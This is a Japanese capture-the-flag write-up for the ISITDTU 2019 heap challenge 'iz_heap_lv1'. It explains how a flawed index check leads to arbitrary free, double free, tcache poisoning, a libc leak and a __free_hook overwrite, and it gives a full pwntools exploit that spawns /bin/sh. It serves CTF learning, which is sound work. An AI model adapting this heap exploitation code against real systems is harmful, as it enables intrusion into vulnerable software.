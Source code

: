 ```yaml
---
tags: pwn
---
```


# ISITDTU CTF 2019 Quals - iz_heap_lv1

これまでに解いた問題: https://hackmd.io/@Xornet/BkemeSAhU

## 公式リポジトリ

<https://github.com/isitdtu-team/ISITDTU-CTF-2019>

## Writeup

### Outline

libc 2.27でPIEだけ無効、create+edit, edit(というよりremake), delete, show name, edit nameが出来る、createした領域のshowは原則として出来ない。
ポインタの管理がかなり厳重でfree時にポインタがクリアされてしまうのでDouble FreeとUAFは簡単には出来ない
サイズ指定, インデックス指定もかなり厳重のように思えるが実は条件演算子のorとandを間違えているせいでサイズとインデックスには制限が無い。これとポインタを管理する配列の下に名前を管理するグローバル変数があることを利用すると名前をポインタ配列の一部とみなすことが出来、仕込んであるアドレスをfree出来る。この仕様を利用して違うインデックスに同じアドレスを仕込んでDouble Freeが出来る。
同時に名前中に偽装チャンクを仕込んでそこを踏み台にしてtcache poisoningをし、名前の真上に`mchunk_size`を用意して名前をfreeする。これでUnsorted Binに送って名前のshowでlibc leakする。
後は同様の手順でtcache poisoningをして`__free_hook`を書き換える。

### Checksec
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

### Binary

### vulnerability

deleteのようなインデックスを要求する関数ではインデックスチェックを行っているが次のようになっている。

```clike
  if ((iVar1 < 0) && (0x14 < iVar1)) {
    puts("Invalid index!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
```

本来だったら入力インデックスが0以上0x14以下であるようにしたかったのだろうが、`||`ではなく`&&`であることからどのような数字でも通るようになっている。
ちなみにサイズ部分も本来はfastbinにしか入らないサイズ(正数で0x7f以下)と制限があるはずだったのが同様のミスでどのようなサイズでも受け付けるようになっている。よって心置きなくUnsorted Bin Attackが出来る。

### 任意アドレスのfree

↑のインデックスに任意の値を指定できるというバグのおかげで本来だったら領域外にあるはずのポインタをfreeすることが出来る。

```clike
  if (*(long *)(&ptr_list + (long)iVar1 * 8) != 0) {
    free(*(void **)(&ptr_list + (long)iVar1 * 8));
    *(undefined8 *)(&ptr_list + (long)iVar1 * 8) = 0;
    return;
  }
```

.bssセクションをよく読むと`ptr_list`の下に名前を確保するグローバル変数があるので事前に名前にアドレスを入れておけばそこに対応するインデックスを指定してfreeすることで任意アドレスのfreeが出来る。具体的にはインデックス20が名前の先頭に対応している。

### Double Freeの引き起こし方

↑で任意アドレスのfreeが出来ることを示したがこれを利用するとDouble Freeが出来る。
名前の中に同じアドレスを2箇所仕込んでおく。そしてそこに対応するインデックスをそれぞれfreeすると当然Double Freeが引き起こされる。
ちなみに名前はサイズにして0x100も入力出来るので予め大量のアドレスをここに用意しておくことが出来る。

### 最初のtcache poisoning

今回は一度freeしたポインタがクリアされてしまう都合上、heap領域上のチャンクに対してDouble FreeやUAFをすることは難しい。そこでアドレスも分かっている.bssセクション中でチャンクを偽装する。
当然最初からここにチャンクが確保されるなどという都合の良いことは起こらないのでまずは自分で`mchunk_size`を設置しておき、その下のアドレスを前述の手法でDouble Freeすることからtcache poisoningに繋げる。

### libc leak

今回はまともなshow機能が無く、唯一のshow機能が名前だけなので名前部分をチャンクとして確保してからfreeしてUnsorted Bin Attackでlibc leakをする。
まずここをfreeするためには`mchunk_size`部分が欲しいので前述のtcache poisoning方法でここを偽装する、もちろん位置は名前の真上である。
無事にサイズを偽装出来たら名前中に仕込んでおいた名前部分のアドレスをfreeしてここをチャンクとして確保する。この時、事前に名前入力時に`main_arena->top`とのconsolidationを防ぐチャンクを用意しておけばUnsorted Binへ送られるのでshow nameでここを読んでlibc leak出来る。
今回は[redpwnCTF 2020 - four function heap](/eFJwsVn3R_uH3KWwVftX2A)同様にtcache poisoningでカウンタを0xffへとオーバーフローさせる手法を用いた、これ使いやすくて好き

### いつもの

あとは前述の手法で再びtcache poisoningを引き起こして`__free_hook`にシェル起動アドレスを仕込む。今回は`system("/bin/sh")`を利用した。

## Code

```python
from pwn import process, p64, u64, ELF


def select(s, sel, c=b"Choice: "):
    s.recvuntil(c)
    s.sendline(str(sel))


def add(s, size, data=b"junk"):
    select(s, 1)
    s.recvuntil(b"size: ")
    s.sendline(str(size))
    s.recvuntil(b"data: ")
    s.send(data)


def delete(s, idx):
    select(s, 3)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))


def edit(s, idx, size, data):
    select(s, 2)
    s.recvuntil(b"index: ")
    s.sendline(str(idx))
    s.recvuntil(b"size: ")
    s.sendline(str(size))
    s.recvuntil(b"data: ")
    s.send(data)


def show(s):
    select(s, 4)
    s.recvuntil(b"(Y/N)")
    s.sendline(b"N")
    s.recvuntil(b"Name: ")
    return s.recvline().rstrip()


if __name__ == '__main__':
    """
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    """
    """
        - delete時にポインタ0クリア
        - indexとsizeは条件設定ミスで制限が無い
    """
    s = process("./iz_heap_lv1")
    elf = ELF("./iz_heap_lv1")
    name_addr = 0x602100
    libc = ELF("./libc.so.6")
    arena_libc = 0x3ebc40

    s.recvuntil(b"name: ")
    pad = p64(0) * 2
    payload = p64(0) + p64(0xa1) + \
            p64(name_addr + 0x10) * 2 + \
            p64(name_addr) + \
            p64(name_addr + 0xa0) * 2 + p64(0) + \
            pad * 0x5 + \
            p64(0) + p64(0x21) + \
            pad + \
            p64(0) + p64(0x21)
    s.send(payload)
    add(s, 0x18)

    delete(s, 22)
    delete(s, 23)
    add(s, 0x98, p64(name_addr - 0x10))
    add(s, 0x98)
    add(s, 0x98, p64(0) + p64(0xa1))
    delete(s, 24)

    libc_addr = u64(show(s).ljust(8, b"\x00")) - arena_libc - 0x60
    free_hook_addr = libc_addr + libc.symbols["__free_hook"]
    system_addr = libc_addr + libc.symbols["system"]
    print(hex(libc_addr))

    delete(s, 25)
    delete(s, 26)
    add(s, 0x18, p64(free_hook_addr))
    add(s, 0x18)
    add(s, 0x18, p64(system_addr))

    edit(s, 0xc, 0x28, b"/bin/sh")
    delete(s, 0xc)

    s.interactive()

```

## Flag

ローカルでシェル取っただけ

## 感想

PIE無効だし余裕だろ、と思ったらshowが制限付きだしポインタが結構硬いしで苦労した
ちなみに1番の反省点はうろおぼえの癖にmain_arenaのオフセットを何も見ないで入力した結果、見事に間違えていたことです